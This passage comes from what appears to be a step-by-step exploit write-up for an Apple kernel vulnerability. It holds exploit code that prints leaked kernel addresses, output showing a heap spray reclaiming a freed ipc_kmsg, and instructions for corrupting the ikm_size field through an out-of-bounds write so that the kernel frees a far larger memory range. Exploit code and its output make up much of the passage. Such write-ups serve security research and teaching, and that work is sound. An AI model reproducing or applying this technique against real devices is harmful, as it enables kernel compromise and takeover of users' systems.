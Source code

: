 ```cpp
    printf("cmdbuf =                    0x%llx\n", command_buffer_shmem_data_kva);
    printf("ipc_kmsg =                  0x%llx\n", ipc_kmsg_addr);
    printf("ipc_kmsg2(FREED) =          0x%llx\n", ipc_kmsg2_addr);
    printf("[*] spray_buffer =          0x%llx\n", spray_buffer_addr);
    printf("oolports =                  0x%llx\n", oolports_kptr);
    printf("kfree_buffer =              0x%llx\n", kfree_buffer_addr);
    printf("====================================================\n\n");

    INFO("spinning here...\n"); 
    getchar();
    #endif
    
    // now:
    // +------------------+------------------+-----------------+--------------+-----------+--------------+
    // |   segment list   |  command buffer  | struct ipc_kmsg | spray_buffer | ool_ports | kfree_buffer |
    // +------------------+------------------+-----------------+--------------+-----------+--------------+
    //
```

Upon checking, `spray_buffer` address is the same as deallocated `ipc_kmsg2` address.

```cpp
=================== Overall Info ===================
seglist =                   0xffffffe0cf7d0000
cmdbuf =                    0xffffffe0d57d0000
ipc_kmsg =                  0xffffffe0db7d0000
ipc_kmsg2(FREED) =          0xffffffe0db7f0000
[*] spray_buffer =          0xffffffe0db7f0000
oolports =                  0xffffffe0db810000
kfree_buffer =              0xffffffe0db830000
====================================================
```

![image.png](pics/image%2010.png)

## 10. Corrupt `ikm_size` field of ipc_kmsg and free a much larger range

- The OOB write vulnerability can corrupt `ikm_size` field of `ipc_kmsg` located immediately after command buffer.
- By adjusting `ikm_size` field, we can cause `ipc_kmsg` to be freed over a much larger range when deallocated.
- The corrupted `ikm_size` field of `ipc_kmsg` is overwritten with return value of `mach_absolute_time`.
- `mach_absolute_time` returns the current value of a clock that increments monotonically in tick units (starting at an arbitrary point). (This clock does not advance while system is asleep.)
- We need to free at least up to ool ports region, so usually free into part of the kfree_buffer region.
